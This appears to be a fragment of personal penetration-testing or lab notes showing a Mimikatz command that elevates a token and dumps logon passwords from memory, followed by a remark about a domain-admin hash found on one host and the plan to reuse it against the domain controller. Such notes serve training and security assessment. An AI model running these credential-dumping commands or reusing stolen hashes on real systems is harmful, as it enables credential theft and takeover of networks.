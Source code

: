 
Ran:
```c
.\mimikatz.exe "token::elevate" "sekurlsa::logonpasswords" "exit"
```
Found this hash on .154. This was first entry and says its domain admin, so lets use it on the DC!
![[Pasted image 20231126100850.png]]

![[Pasted image 20231126100821.png]]
![[Pasted image 20231126100810.png]]
